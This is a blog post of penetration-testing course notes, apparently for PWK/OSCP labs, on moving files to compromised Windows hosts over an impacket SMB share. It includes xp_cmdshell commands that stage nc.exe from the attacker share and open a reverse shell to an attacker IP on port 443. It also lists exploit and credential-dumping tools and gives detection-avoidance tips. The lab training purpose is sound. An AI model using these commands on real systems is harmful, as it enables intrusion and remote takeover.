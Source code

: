 # PWK Notes: Post-Exploitation Windows File Transfers with SMB

[pwk](/tags#pwk ) [oscp](/tags#oscp ) [smb](/tags#smb )
[impacket](/tags#impacket ) [exfil](/tags#exfil ) [upload](/tags#upload )  
  
Oct 11, 2018

PWK Notes: Post-Exploitation Windows File Transfers with SMB

Moving files to and from a compromised Linux machine is, in general, pretty
easy. You’ve got nc, wget, curl, and if you get really desperate, base64 copy
and paste. Windows, is another issue all together. PowerShell makes this
somewhat easier, but for a lot of the PWK labs, the systems are too old to
have PowerShell. The course material goes over a few ways to achieve this, but
they don’t cover my favorite - SMB. This may be less realistic in an
environment where you have to connect from a victim machine back to your
attacker box over the public internet (where SMB could be blocked), but for
environments like PWK labs and HTB where you are vpned into the same LAN as
your targets, it works great.

## Overview

The goal here is to get easy file transfer to and from a compromised Windows
host. To do this, we’ll create an SMB share on our local box, and then connect
to that share from the compromised Windows host. From there, we can copy files
into the shared folder on either host, and then access them on the other host.

## Server

### Installation

The Impacket tool set comes pre-installed on Kali. If you don’t have it for
some reason, you can install it with `apt install python-impacket`. You can
also clone the Secure Auth Corp [Impacket git
repo](https://github.com/SecureAuthCorp/impacket) if you want the most up to
date version.

### Starting the Server

To get the server up and running on our local box, simple enter the following
syntax:

    
    
    # impacket-smbserver.py shareName sharePath
    

  * `shareName` \- can be anything you want, but you’ll need to know this in order to connect back to the share
  * `sharePath` \- the folder you want shared

### Example

For example, I keep a tools directory with a bunch of common stuff I might
need as I work though my labs:

    
    
    root@kali# ls tools/
    25912.exe              cachedump.exe  lonelypotato.exe  ms11-046.exe  MS14-002.exe      MS14-070.exe  nc.exe     PwDump.exe        wce32.exe   windows-privesc-check2.exe
    37049-32.exe           ff.exe         mimikatz          MS11-046.exe  MS14-070          MS14-070.rar  plink.exe  rottenpotato.exe  wce64.exe   winx86_meterpreter_80.exe
    accesschk-2003-xp.exe  fgdump.exe     mimikatz.exe      MS13-053.exe  MS14-070_adduser  nc64.exe      Privesc    sysinternals      whoami.exe  winx86_stageless_shell_80.exe
    

Others like to create an smb directory for each target and drop the necessary
files into it.

Then I can share this directory as follows:

    
    
    root@kali# impacket-smbserver smb tools/
    Impacket v0.9.18-dev - Copyright 2002-2018 Core Security Technologies
    
    [*] Config file parsed
    [*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
    [*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
    [*] Config file parsed
    [*] Config file parsed
    [*] Config file parsed
    

## Client

### Syntax

From the Windows host, we need to use the build in `net use` command to
connect to our shared drive. Here’s three examples of the syntax:

    
    
    C:\>net use
    C:\>net use \\[host]\[share name]
    C:\>net use /d \\[host]\[share name]
    

The first command will list all currently connected shares. The second will
create a connection to the named shared at the given host (in our case,
typically an IP address). The third command will close that connection.

Once that runs, you can reference the share by it’s full UNC path.

### Examples

#### With Shell

Let’s say we wanted to copy a privesc binary to the host. We could do the
following.

Connect to the share:

    
    
    C:\>net use \\10.11.0.XXX\smb
    net use \\10.11.0.XXX\smb
    The command completed successfully.
    

Copy the file:

    
    
    C:\WINDOWS\Temp>copy \\10.11.0.XXX\smb\ms11-046.exe \windows\temp\a.exe
    copy \\10.11.0.XXX\smb\ms11-046.exe \windows\temp\a.exe
            1 file(s) copied.
    

#### To Get Shell From RCE

In a different case, I only had access to a MySQL database, and wanted to get
a full shell. I used `xp_cmdshell` to map my drive, copy nc to the host, and
run it:

    
    
    1> xp_cmdshell 'net use \\10.11.0.XXX\smb'
    2> go
            output
            ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
            The command completed successfully.
            NULL
            NULL
    (return status = 0)
    
    1> xp_cmdshell 'copy \\10.11.0.XXX\smb\nc.exe \windows\temp\nc.exe'
    2> go
            output
            ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
                    1 file(s) copied.
                    NULL
    (return status = 0)
    
    1> xp_cmdshell '\windows\temp\nc.exe -e cmd.exe 10.11.0.XXX 443'
    2> go
    

## Opsec Notes

### Locally

When you run this server, you’ve created an unauthenticated share on the
network that anyone can read and write to. That’s why it’s important not to
share anything sensitive (like your notes directory), as someone could mess
with or delete them.

It’s also a good idea to take down the share when you’re not using it.

You will be able to tell when a new host connects to your share, and when they
disconnect:

    
    
    [*] Incoming connection (10.11.1.X,3187)
    [*] AUTHENTICATE_MESSAGE (\,USERNAME)
    [*] User \USERNAME authenticated successfully
    [*] :::00::4141414141414141
    [*] Closing down connection (10.11.1.5,3187)
    [*] Remaining connections []
    

### On Target

There is an option to `net use` to allow you to reference a connected share by
a new drive letter. To do this, just run:

    
    
    C:\>net use p: \\10.11.0.X\smb
    

From there, you can go to that drive and it’s easier to interact with. It’s
also very unsafe opsec. A user on the box is unlikely to see a mapped share,
but might very well notice a new drive letter. The same goes for others in the
labs with you attacking the same box. It’s worth the extra trouble to just use
the UNC path.

[](/2018/10/11/pwk-notes-post-exploitation-windows-file-transfers.html)

